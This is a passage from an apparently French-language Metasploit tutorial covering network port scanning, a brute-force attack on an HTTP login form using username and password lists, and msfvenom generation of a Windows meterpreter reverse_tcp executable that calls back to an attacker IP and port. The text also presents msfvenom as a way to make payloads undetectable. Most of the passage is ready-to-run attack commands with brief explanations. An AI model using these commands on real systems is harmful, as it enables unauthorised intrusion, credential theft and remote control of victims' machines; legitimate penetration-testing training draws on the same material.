 #### 1. Scanner un Réseau pour Identifier des Vulnérabilités

*   **Commande** :

    ```bash
    use auxiliary/scanner/portscan/tcp
    set RHOSTS 192.168.1.0/24
    run
    ```
* **Explication** :
  * Scanne les ports ouverts sur un réseau donné pour détecter des vulnérabilités.

***

#### 2. Réaliser une Attaque par Force Brute

*   **Commande** :

    ```bash
    use auxiliary/scanner/http/http_login
    set RHOSTS 192.168.1.10
    set TARGETURI /login
    set USER_FILE /path/to/users.txt
    set PASS_FILE /path/to/passwords.txt
    run
    ```
* **Explication** :
  * Utilise une liste de noms d'utilisateur et de mots de passe pour tester un formulaire de connexion.

***

### 🚀 Étape 4 : Msfvenom - Génération de Payloads

***

**Msfvenom** est utilisé pour générer des payloads personnalisés et les encoder pour les rendre indétectables.

***

#### 1. Générer un Payload Windows

*   **Commande** :

    ```bash
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.5 LPORT=4444 -f exe -o payload.exe
    ```
* **Explication** :
  * `-p` : Spécifie le payload à utiliser (ici `reverse_tcp` pour une connexion inverse).
  * `LHOST` : Votre adresse IP.
  * `LPORT` : Le port d'écoute.
  * `-f exe` : Formate le payload en un fichier exécutable Windows.
  * `-o` : Spécifie le nom de sortie du fichier généré.
